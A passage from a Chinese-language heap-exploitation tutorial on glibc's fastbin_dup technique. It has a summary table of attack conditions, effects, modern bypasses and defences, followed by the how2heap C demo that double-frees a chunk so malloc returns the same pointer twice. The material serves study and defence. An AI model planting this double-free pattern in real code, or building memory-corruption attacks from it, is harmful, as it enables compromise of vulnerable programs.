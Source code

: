 #### 2. **堆布局防护**
- 随机化堆地址（ASLR）、隔离敏感数据。

---

### 六、总结
| 技术要点          | 说明                                                                 |
|-------------------|----------------------------------------------------------------------|
| **攻击条件**       | glibc < 2.26，fastbin 同一大小，插入中间 chunk 绕过检查。            |
| **利用效果**       | 构造循环链表，实现内存重复分配，引发 UAF 或数据覆盖。                |
| **现代绕过**       | 需结合 tcache 耗尽或 `key` 字段篡改（如 `house of botcake` 等攻击）。|
| **防御重点**       | 更新 glibc、启用安全机制（如 tcache 检测）、代码审计。               |

**注**：`fastbin_dup` 是理解堆漏洞利用的基础，但其在现代环境中的直接应用已受限，需结合其他技术（如 tcache 攻击）实现完整利用链。


### 七、how2heap代码分析

源码如下
```c
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>
int main()
{
    fprintf(stderr, "This file demonstrates a simple double-free attack with fastbins.\n");
    fprintf(stderr, "Allocating 3 buffers.\n");
    int *a = malloc(8);
    int *b = malloc(8);
    int *c = malloc(8);
    fprintf(stderr, "1st malloc(8): %p\n", a);
    fprintf(stderr, "2nd malloc(8): %p\n", b);
    fprintf(stderr, "3rd malloc(8): %p\n", c);
    fprintf(stderr, "Freeing the first one...\n");
    free(a);
    fprintf(stderr, "If we free %p again, things will crash because %p is at the top of the free list.\n", a, a);
    // free(a);
    fprintf(stderr, "So, instead, we'll free %p.\n", b);
    free(b);
    fprintf(stderr, "Now, we can free %p again, since it's not the head of the free list.\n", a);
    free(a);
    fprintf(stderr, "Now the free list has [ %p, %p, %p ]. If we malloc 3 times, we'll get %p twice!\n", a, b, a, a);

    a = malloc(8);
    b = malloc(8);
    c = malloc(8);
    fprintf(stderr, "1st malloc(8): %p\n", a);
    fprintf(stderr, "2nd malloc(8): %p\n", b);
    fprintf(stderr, "3rd malloc(8): %p\n", c);
    assert(a == c);

}
```
